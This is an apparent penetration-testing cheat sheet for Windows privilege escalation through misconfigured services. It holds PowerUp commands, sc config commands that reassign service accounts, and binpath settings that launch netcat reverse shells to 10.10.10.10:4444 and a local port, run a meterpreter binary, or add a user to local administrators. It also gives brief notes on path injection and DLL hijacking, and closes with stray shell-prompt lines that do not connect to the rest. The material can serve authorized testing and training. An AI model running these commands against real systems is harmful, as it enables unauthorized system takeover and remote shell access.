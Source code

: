 ```bash
ipmo .\powerup.ps1
invoke-allchecks
sc qc vuln
sc config vuln start= demand  //Change start type
sc config vuln obj= "NT AUTHORITY\SYSTEM"  //Change owner
sc config SSDPSRV obj= ".\LocalSystem" password= "" // Or This
sc.exe config usosvc start= auto // Or this
Invoke-serviceabuse -name 'vuln' -username 'red\alice'  //Abuse
```

#### Enable service

If you are having this error (for example with SSDPSRV):

System error 1058 has occurred.
The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.

You can enable it using:

```bash
sc config vuln obj= "NT AUTHORITY\SYSTEM"  //Change owner
sc config SSDPSRV obj= ".\LocalSystem" password= "" // Or This
sc.exe config usosvc start= auto // Or this
```

#### Modify service binary path

In the scenario where the "Authenticated users" group possesses SERVICE_ALL_ACCESS on a service, modification of the service's executable binary is possible. To modify and execute sc:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

#### Restart Service

```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

#### Path Injection

If you see any instance where a script or a cronjob does not specify the full path of a binary, whether it be Windows or Linux, the first thing that should come to mind is path injection. 

### Service DLL Hijacking

DLL Replacement.
Swapping a genuine DLL with a malicious one, optionally using DLL Proxying to preserve the original DLL's functionality.


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname